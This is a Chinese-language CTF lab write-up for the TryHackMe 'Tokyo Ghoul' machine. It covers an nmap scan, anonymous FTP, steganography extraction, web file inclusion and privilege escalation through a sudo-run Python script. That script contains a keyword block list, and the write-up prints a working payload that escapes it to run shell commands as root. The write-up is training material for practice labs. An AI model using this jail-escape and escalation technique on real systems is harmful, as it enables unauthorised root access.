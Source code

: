 ```yaml
---
sidebar_position: 94
tags: [Easy, Linux, 文件隐写, 文件包含, SUDO]
title: "Tokyo Ghoul"
description: "Tokyo Ghoul"
sidebar_label: "Tokyo Ghoul"
slug: /tryhackme/94
---
```

# Tokyo Ghoul
## 端口扫描
```bash
root@ip-10-10-66-13:~/tokyoghoul666# nmap -sTCV -p 21,22,80 --min-rate 1000 10.10.97.55

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-16 10:23 BST
Nmap scan report for ip-10-10-97-55.eu-west-1.compute.internal (10.10.97.55)
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23  2021 need_Help?
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.66.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
|_  256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
MAC Address: 02:40:32:1E:2E:E9 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.45 seconds
```

## 21 - FTP
我发现可以进行匿名身份登陆所以进行了登陆发现其中存在一些共享内容

- 一个文本文件 : 没有什么用
- 一个照片 : 估计存在文件隐写术
- 一个 elf 文件 : 在我执行的时候问我要密码, 估计是明文写在 elf 中的,所以我直接进行了查看

```bash
root@ip-10-10-66-13:~/tokyoghoul666# ./need_to_talk 
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

> kamishiro
Good job. I believe this is what you came for:
You_found_1t
```

得到了一个密码估计就是文件隐写术的密码, 接着解密后得到一段摩斯密码之类的内容 [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9+/=',true,false)&input=WkRGeU0yTTNNSEo1WDJObGJuUmxjZz09), 得到解密后的内容看样子是一个目录

```bash
root@ip-10-10-66-13:~/tokyoghoul666# steghide info rize_and_kaneki.jpg 
"rize_and_kaneki.jpg":
  format: jpeg
  capacity: 2.7 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "yougotme.txt":
    size: 377.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

## 80
简单看了以下网站没有发现什么可以利用的地方直接对着上面发现的目录扫描

![20240703222358](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703222358.png)

可以看到这里多了一个站点 : claim , 访问此页面我在其中发现一个非常的 URL

![20240703222408](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703222408.png)

这不就是妥妥的文件包含了, 直接上手绕过一重又一重后得到了 payload

![20240703222417](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703222417.png)

## 后渗透
### kamishiro
在上面我们得到的 passwd 中泄露了用户的密码我们直接解密,并使用得到的密码进行登陆即可

![20240703222443](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703222443.png)

### kamishiro —> root
我发现用户具有 SUDO 特权, 但是对应的脚本过滤了一些内容我们需要操作一下

```bash
kamishiro@vagrant:~$ sudo -l
[sudo] password for kamishiro: 
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
kamishiro@vagrant:~$ cat jail.py 
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

进行 Python 的逃逸

```bash
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
9d790bb87898ca66f724ab05a9e6000b
No Kaneki you are so dead
```